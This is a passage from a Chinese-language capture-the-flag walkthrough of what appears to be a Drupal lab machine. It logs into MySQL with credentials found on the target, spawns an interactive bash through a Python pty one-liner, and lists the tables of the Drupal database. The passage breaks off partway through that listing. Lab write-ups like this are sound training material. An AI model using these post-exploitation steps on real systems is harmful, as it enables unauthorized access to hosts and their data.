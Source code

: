 ### 3.登录MySQL和python及php脚本二点使用

- 用户名是：**dbuser**；密码是**R0ck3t**

![QQ图片20220523203734](https://img.crzliang.cn/img/QQ%E5%9B%BE%E7%89%8720220523203734.png)

- 直接使用**MySQL**命令时失效了；进到*shell*里使用命令也没有反应

![ea3277f1-fe50-40cb-9614-21ee8e6b0261](https://img.crzliang.cn/img/ea3277f1-fe50-40cb-9614-21ee8e6b0261.png)

- 在使用*python -V*的命令时，发现靶机安装了python 2.7.3版本，那么使用python一句话命令获取标准*shell*

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

```plain
1.mysql -udbuser -pR0ck3t  #连接数据库
2.show databases;       #显示数据库列表
```

![QQ图片20220523203937](https://img.crzliang.cn/img/QQ%E5%9B%BE%E7%89%8720220523203937.png)

![13~`Y$J55MDZ_`{J8NQ[]68](https://img.crzliang.cn/img/13%60Y$J55MDZ_%60%7BJ8NQ%5B%5D68.png)

```plain
1.use drupaldb;			#使用drupal数据库
2.show tables;			#显示库中的数据表
```

```plain
+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |
```
